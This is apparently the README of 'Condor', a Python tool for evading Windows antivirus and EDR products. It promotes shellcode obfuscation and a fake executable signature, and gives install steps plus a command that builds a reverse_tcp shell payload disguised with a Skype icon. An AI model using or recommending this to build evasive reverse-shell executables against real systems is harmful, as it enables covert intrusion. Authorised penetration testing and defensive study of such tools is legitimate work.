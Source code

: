<h1 align="center">「🛡️」About Condor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Condor is a tool created to help pentesters bypass protections like AVs/EDRs/XDRs in the Windows operating system. Condor was developed in Python and has several advantages to help pentesters.</p>

## Executable Scan

![](assets/scan.png)

## Benefits

* Easy to use
* Bypass multiple AVs/EDRs/XDRs
* Two XOR encryption process and an obfuscation
* The generated file is less than 7mb
* Using custom shellcode
* Fake signature on executable

## Environment support

| OS/Subsystem | | Installation of All Requirements | Compilation | EXE Execution |
| ----------- | ----------- | ----------- | ----------- | ----------- |
| Windows | ❌ | ✅ | ✅ | ✅ |
| Linux | ✅ | ❌ | ❌ | ❌ |
| Mac | not tested | not tested | not tested | not tested |
| WSL | ✅ | ✅ | ✅ | ✅ |

## Help

![](assets/help.png)


## Usage

It is recommended to run the tool in a WSL environment, as you will need to generate shellcodes using msfvenom and compile to EXE using pyinstaller.

```
$ git clone https://github.com/trhacknon/Condor.git
$ cd Condor
$ chmod +x install.sh
$ sudo ./install.sh
...
$ python3 condor.py -p windows/x64/shell/reverse_tcp -lh <LOCAL HOST> -lp <LOCAL PORT> -i skype
```
